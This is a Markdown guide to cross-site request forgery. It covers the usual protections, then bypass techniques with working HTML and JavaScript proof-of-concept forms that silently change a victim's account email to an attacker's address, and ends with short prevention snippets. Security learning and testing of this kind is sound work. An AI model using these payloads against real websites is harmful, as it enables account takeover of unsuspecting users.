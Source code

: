 # CSRF (Cross-Site Request Forgery) Guide

---

## What is Cross-Site Request Forgery (CSRF/XSRF)?

- Imagine you're logged into a website (e.g., banking site). At the same time, you visit a malicious site.
- The malicious site can make requests to the banking site **on your behalf**, without your knowledge.
- **Example Attack:** Change your email, reset password, or transfer funds.
- If the victim is an admin, the attacker could takeover the entire system.

---

## Protections Against CSRF

1. **Referrer Header Check**
2. **CSRF Tokens**
3. **SameSite Cookies**
4. **JSON Format Validation**

---

## Bypassing CSRF Protections

### 1. Referrer Header Bypass

#### Case (1): Remove Referrer
- Some apps don't validate if referrer is missing.

#### Case (2): Subdomain Trick
- If referrer is loosely validated, let's say the target is `account.example.com`, then try setting the Referrer to `account.exampleevil.com`. If it works, buy the domain `exampleevil.com`, create a subdomain named account, and continue your attack.
```http
Referrer: https://evil.com         → Error.
Referrer: https://exampleevil.com  → Success. 
```
- Buy `exampleevil.com` and create `account.exampleevil.com`.

#### Case (3): Using `@` or `/` to Obfuscate
```http
Referrer: https://evil.com/file@https://example.com
```
- Alternate characters: `|`, `/`, `?`, `#`
  - Example: `Referrer: https://evil.com/file     # Error.`
  -          `Referrer: https://evil.com/file?//victim.com     # Success.`

#### HTML PoC with Referrer:
```html
<html>	
<head><meta name="referrer" content="unsafe-url"></head>   <!-- Means that you can send the referrer via HTTP or HTTPS -->
<body>
	<form name="hacker" method="POST" action="https://account.example.com/change_email">
		<input type="hidden" name="email" value="attacker@example.com">   <!-- The inputs are depending on the target variables  -->
	</form>
<!-- Referrer function “pushState”, If we're gonna type # instead of / We just will add # after / like that: /#file -->
	<!-- This function “pushState” takes whatever comes after evil.com -->
	<script>
			history.pushState('','','/file@account.example.com')
			document.form[0].submit();
	</script>
</body>
</html>
```

#### Case (4): Fake Parameter in Referrer
```html
<script>
  history.pushState('', '', '/?param=https://example.com');
  document.forms[0].submit();
</script>
```

#### • Case (5): Remove Referrer with `no-referrer`
```html
<meta name="referrer" content="no-referrer">
```

---

### 2. CSRF Token Bypass Techniques

- Remove the `csrf_token` parameter.
- Use random invalid token (`length ±1`).
- Slightly modify the token (spoof).
- Use token from attacker session.
- Change request method from POST → GET.
- Remove custom header (if token sent via header).
- Guess token (weak randomness).
- Set value to `"null"` or use null bytes.
- Steal token via XSS.
- Intercept and replay token from HTTP traffic.
- Exploit static part of tokens (`abc123XYZ`, `abc456XYZ`).
- Use type juggling (e.g., `0e123456` = `0` in PHP).

---

### 3. SameSite Cookies Bypass

#### • Types:

- **Strict**: Blocked unless same site origin.
- **Lax**: Allows top-level GET requests.
- **None**: Allows all but requires `Secure` (HTTPS).

#### • Detect via response headers:
```
Set-Cookie: session=abc; SameSite=Strict; Secure
```

#### • Strict Bypass:
- Look for open redirect or path traversal in JS.
```js
window.location = blogPath + '/' + postId;
```
Payload:
```html
<form method="POST" action="https://example.com?postId=../../../../change_email">
  <input type="hidden" name='{"test":"x' value='y", "new_email":"attacker@gmail.com"}'/>
</form>
```

#### • Lax Bypass:
- Must use GET.
- Requires user to click.
```html
<script>
  location = "https://example.com/change_email?email=attacker@example.com&_method=POST";
</script>
```

---

### 4. JSON Format Bypass

#### • Case (1): Change Content-Type
- From: `application/json`
- To: `application/x-www-form-urlencoded` or `text/plain`

```html
<form method="POST" action="https://example.com/phone.json" enctype="application/x-www-form-urlencoded">
  <input type="hidden" name='{"test":"x' value='y", "new_email":"attacker@gmail.com"}'/>
</form>
```

#### • Case (2): Only change `Content-Type`, keep JSON format
```html
<form method="POST" action="https://example.com/phone.json" enctype="text/plain">
  <input type="hidden" name='{"test":"x' value='y", "new_email":"attacker@gmail.com"}'/>
</form>
```

#### • Case (3): Change Method from PUT/PATCH → POST
- Replace JSON with URL-encoded or text body.

```http
PATCH → POST
Content-Type: application/json → text/plain
```

---

## ▪ Preventing CSRF

### • PHP:
```php
if ($_POST['csrf_token'] !== $_SESSION['csrf_token']) {
    die("Invalid CSRF Token");
}
```

### • Express.js:
```js
app.use(session({
  secret: "your_secret",
  resave: false,
  saveUninitialized: true,
  cookie: { sameSite: "Strict", secure: true }
}));
```
